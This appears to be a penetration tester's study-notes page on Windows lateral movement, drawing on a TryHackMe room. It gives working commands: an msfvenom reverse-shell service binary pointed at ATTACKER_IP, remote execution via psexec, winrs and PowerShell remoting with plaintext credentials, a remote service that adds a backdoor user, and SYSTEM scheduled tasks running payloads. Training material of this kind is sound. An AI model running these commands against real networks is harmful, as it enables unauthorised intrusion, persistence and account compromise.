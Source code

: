 # Windows Network Lateral Movement
The articles [[Network-Protocols]], [[Network-Services]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

## MSFVenom
[[MSFvenom-Payloads]] for exe-service
```bash
 msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

## Spawning Process Remotely
See [[Windows-Processes]] for more information on Service and Processes. [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership

`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```

It is also an Impacket tool see [[Impacket-Cheatsheet]]

## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```

## Remote Service Creation with `sc`
1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows Ser services execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```

## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## Impacket - dccomexec.py
[[Impacket-Cheatsheet]]

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)